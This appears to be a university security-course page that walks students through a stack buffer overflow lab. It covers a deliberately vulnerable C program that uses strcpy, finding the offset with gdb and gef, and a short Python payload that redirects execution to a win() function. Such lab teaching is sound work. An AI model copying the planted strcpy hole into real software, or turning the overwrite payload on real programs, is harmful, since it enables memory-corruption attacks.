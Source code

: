 ```yaml
---
layout: ../../../layouts/SemesterMarkdown.astro
---
```



# Stack Overflow Walkthrough

Recall the way the stack works:

<Image alt="Stack overflow attack" src={figure_6_5} />

- Note, this example assumes 4-byte memory words, but it works regardless of
  word size

```c
void myfunction(char *src) { /* src is a ptr to a char string */
  int var1, var2; /* 1 stack word used per integer */
  char var3[4]; /* also 1 word for 4-byte buffer */
  strcpy(var3, src); /* template: strcpy(dst, src) */
}
```

Our goal is to overwrite the return address and point it somewhere else.

## Preliminaries

- Install [gef](https://github.com/hugsy/gef). This will make using gdb for exploits a lot simpler.

- Use an [x86-64 reference](https://web.stanford.edu/class/cs107/resources/x86-64-reference.pdf).

## Vulnerable code

Here is the vulnerable code we'll be using. This is taken from `stack-overflow.c` in the [software security repo](https://github.com/BYU-CS465/software-security).

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void my_function(const char *);

void win()
{
  printf("You win!\n");
  exit(0);
}

int main(int argc, char **argv)
{
  char buf[101];

  printf("Enter a string: ");
  fgets(buf, 100, stdin);

  my_function(buf);

  printf("Exiting normally\n");
}

void my_function(const char *src)
{
  int var1 = 1;
  char copy[4];
  strcpy(copy, src);
}
```

## Causing a crash

Notice that the above code is using `strcpy()`. This means it should be easy to crash the program. Compile the vulnerable code, which results in an executable called `stack`. Run `gdb ./stack` and then generate a pattern: `pattern create 100`:

<Image alt="Using the pattern create command in gdb" src={gdb_pattern} />

Time permitting, we will also try the `buffer overflow 0` and `buffer overflow `
exploits on the
[PicoCTF website](https://play.picoctf.org/practice/challenge/257?category=6&page=1&search=buffer).

Now run the program and supply the pattern as input:

<Image
  alt="Use the created pattern as input to the program"
  src={gdb_cause_crash}
/>

Once you hit enter, then gdb, using `gef`, will show you:

<Image alt="Crash output from gdb" src={gdb_crash} />

- The top listing shows you registers, color-coded to show you which are affected by what we wrote on the stack.

  - Notice that we can overwrite `$rsp`, the stack pointer
  - Notice that we did not change `$rip`, the instruction pointer. This is because the address we've given in `$rsp` a 64-bit address and programs are capped at using 48-bit addresses.

- The bottom listing shows you the stack.
  - The program wrote the first four bytes of our pattern `aaaa` into the local variable `copy`. Use `p copy` to see its value.
  - Then it continued copying past the buffer and changed `var1` to contain `0x61616161`, which is also `aaaa`. Use `p var` to see its value.
  - Then it copied `baaaaaaa` into `$rbp`.
  - Then it copied `caaaaaaa` into `$rsp` and kept going onto the rest of the stack.
  - Notice that the stack is shown starting at `$rsp`.

Now run `pattern search `caaaaaaad`:

<Image alt="Use the pattern search command in gdb" src={gdb_pattern_search} />

You should see the offset from the buffer to `$rsp`, which in this case is 16. We can pretty easily see that ourselves, but `pattern search` simplifies things a bit, and you won't always have the source code to work with.

### Exploiting the vulnerability

In this case, we want to "win" by having the program execute the `win()` function. We can do that by overwriting the `$rsp` to point to the `win()` function. To get this address, use `disassem win`:

<Image alt="Use the disassem command in gdb" src={gdb_disassem} />

In this case, we can see that the address is `0x4011b6`.

At this point, use a small program we have written, called `exploit.py`:

```python
#!/usr/bin/env python3
import sys

NUM = 16

payload = b"A" * NUM + b'\xb6\x11\x40\x00\x00\x00\x00\x00'
sys.stdout.buffer.write(payload)
print()
```

This writes out the number of `A` characters specified, followed by our address, which is in reverse order because the machine is little endian. You can execute this program using: `python exploit.py > payload.txt`.

Now go back to gdb and provide this as input, using `r < payload.txt`:

<Image
  alt="use gdb to run the program with the specified input"
  src={gdb_you_win}
/>

You can also run this on the command line to verify it works: `./stack < payload.txt`.
